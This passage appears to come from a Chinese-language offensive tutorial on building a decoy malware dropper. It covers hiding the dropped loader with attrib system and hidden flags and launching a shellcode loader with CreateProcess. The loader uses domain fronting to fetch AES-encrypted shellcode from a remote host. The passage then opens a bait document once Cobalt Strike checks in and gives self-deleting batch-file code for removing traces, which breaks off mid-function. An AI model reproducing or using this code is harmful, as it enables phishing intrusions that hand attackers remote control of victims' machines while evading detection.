 运行样本之后，在%TEMP%目录下释放shellcode加载器以及相应内容的DOC文档，

##### 二、文件隐蔽

使用Attrib +s +h命令把原本的文件增加了系统文件属性、隐藏文件属性。

这样该文件就不能在目录中被发现，但是仍然存在可以访问

```
attrib C:\Users\ThinkPad\AppData\Local\Temp\jqR78D62.exe  +s +h
```

##### 三、创建进程

使用CreateProcess()创建进程，这里配合的是unkonw师傅的[shellcode远程加载器改造计划]，去配合DoaminFronting 远程动态AES加密加载shellcode。

https://mp.weixin.qq.com/s/Zs_fCqZfzdzHTwVPvshFyQ

```
PROCESS_INFORMATION pi;
STARTUPINFO si = { sizeof(si) };
si.cb = sizeof(si);
si.wShowWindow = TRUE;
strcat_s(SaveFile, TEXT(" http://qq.com/api DomainFronting"));
BOOL bRet = CreateProcess(
	NULL,//不在此指定可执行文件的文件名
	SaveFile,//命令行参数
	NULL,//默认进程安全性
	NULL,//默认进程安全性
	FALSE,//指定当前进程内句柄不可以被子进程继承
	CREATE_NEW_CONSOLE,//为新进程创建一个新的控制台窗口
	NULL,//使用本进程的环境变量
	NULL,//使用本进程的驱动器和目录
	&si,
	&pi);
```

最后打开诱饵文件，此时cobalt strike已经成功上线。

```
ShellExecute(NULL, "open", "关于XXXXX.docx", NULL, NULL, SW_SHOW);
```

##### 四、痕迹清除

删除自身程序代码：

```
// this is the name of the temporary .bat file
static const char tempbatname[] = "_uninsep.bat" ;

void Selfdestruct() 
{
  // temporary .bat file
  static char templ[] = 
    ":Repeat\r\n"
    "del \"%s\"\r\n"
    "if exist \"%s\" goto Repeat\r\n"
    "rmdir \"%s\"\r\n"
    "del \"%s\"" ;


  char modulename[_MAX_PATH] ;    // absolute path of calling .exe file
  char temppath[_MAX_PATH] ;      // absolute path of temporary .bat file
  char folder[_MAX_PATH] ;

  GetTempPath(_MAX_PATH, temppath) ;
  strcat(temppath, tempbatname) ;

  GetModuleFileName(NULL, modulename, MAX_PATH) ;
```